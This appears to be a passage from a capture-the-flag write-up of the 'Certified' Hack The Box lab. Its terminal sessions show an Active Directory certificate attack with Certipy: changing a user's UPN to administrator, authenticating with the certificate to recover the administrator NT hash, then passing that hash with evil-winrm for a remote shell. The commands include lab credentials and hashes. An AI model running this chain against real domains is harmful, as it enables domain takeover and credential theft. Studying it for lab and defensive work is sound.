```terminal
──╼[★]$ certipy req -username "ca_operator@certified.htb" -p 'P@ssword123' -target "10.10.11.41" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
Certipy v4.8.2 - by Oliver Lyak (ly4k)                                                         
                                               
[*] Requesting certificate via RPC
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace      


──╼[★]$ certipy account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)                                                         
                                               
[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'



──╼[★]$ certipy account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn ca_operator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator
[*] Successfully updated 'ca_operator'


──╼[★]$ certipy auth -pfx 'administrator.pfx' -domain "certified.htb"                                                                                
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

We got the administrator's hash, now let's pass the hash to get a shell.

```terminal
──╼[★]$ evil-winrm -i certified.htb -u administrator -H 0d5b49608bbce1751f708748f67e2d34   
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
